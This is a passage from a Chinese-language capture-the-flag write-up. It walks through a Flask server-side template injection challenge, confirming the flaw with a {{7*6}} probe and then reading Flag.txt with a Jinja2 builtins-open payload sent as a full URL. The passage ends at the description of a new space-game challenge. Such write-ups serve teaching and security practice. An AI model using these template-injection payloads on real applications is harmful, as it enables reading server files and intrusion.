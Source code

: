 ![bossti_4](images/bossti_4.png)
登入之後變成 SSTI 的題目，透過 `Wappalyzer` 知道他是 Python Flask，所以要找 Python 的 SSTI payload 來試。


![bossti_5](images/bossti_5.png)
在 `hack` 欄位用上 `{{ 7*6 }}`，結果伺服器幫我們算好 `42`，確定存在 SSTI。
```URL
http://10.99.111.109:5000/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27{{7*6}}%27}
```

![bossti_6](images/bossti_6.png)
題目要我們嘗試找到 `Flag.txt`，所以找一下讀檔的 payload。本來應該要找到方法 list files，但通靈當前目錄中了就不需要了。
```URL
http://10.99.111.109:5000/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27{{get_flashed_messages.__globals__.__builtins__.open(%22Flag.txt%22).read()}}%27}
```

- flag: `CGGC{"S$T1_V3RY_EZ_2_Pwn3D_C0ngr4t$"} `

## [MISC] Space game
> Description:
> 
> Play a fun space game and try to get a high score.
> Move using the arrow keys and press 'Z' to attack.
